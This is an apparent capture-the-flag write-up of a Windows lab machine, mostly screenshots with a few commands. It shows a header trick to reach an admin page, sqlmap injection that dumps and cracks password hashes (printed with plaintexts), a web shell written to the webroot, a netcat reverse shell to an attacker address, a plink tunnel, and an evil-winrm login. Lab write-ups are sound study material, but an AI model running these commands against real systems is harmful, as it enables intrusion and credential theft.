There are 3 open ports:




We will fuzz the web server:





Accessing the admin page states we are not going through a proxy:



So we can try to use the X-Forwarded-Host header:


We can see the internal IP is revealed in the index page code:



And changing to that IP:



And so, we can access the admin page:



We test the search capability for SQL injections:


It produces this error:



Let us capture a request using Burp:



And test it using the “-r” option of sqlmap:

```
sqlmap --level 5 --risk 3 --dbms mysql -p "productName" -r req.txt
```


Note for the future: The request must be similar to this, with only one space between the headers and the data sent:



It returns some hashes and even cracks one of them:



And we can crack another in Crackstation:



So the hashes are:

- hector - *0E178792E8FC304A2E3133D535D38CAF1DA3CD9D (l33th4x0rhector)

- manager -  *CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA (l3tm3!n)

- root - *0A4A5CAD344718DC418035A1F4D292BA603134D8 (???)


Then we will grab a PHP shell:



And we will upload the file:

```
sqlmap --dbms mysql -p "productName" --file-write rrrshell.php --file-dest "C:\inetpub\wwwroot\rrrshell.php" -r req.txt
```




We get remote code execution:



Reverse shell:

```
\\10.10.15.19\RIC\nc.exe 10.10.15.19 8888 -e cmd
```






We will list the services running, which include Winrm:




After unsuccessfully trying to execute a Meterpreter binary, I tried to use Plink (mi primerita vez):

```
plink.exe -R 5985:127.0.0.1:5985 10.10.15.19
```


We can see there is a new service in our Kali machine:



Now we can access as Hector and grab the user.txt flag:

```
./evil-winrm.rb -i 127.0.0.1 -u Hector -p "l33th4x0rhector"
```




And regarding the root flag... To be honest, I found it in a leak in pastebin D:


So this is just a half-writeup! It was a great box even though I could not find a way to escalate privileges. Sorry and see you next time!


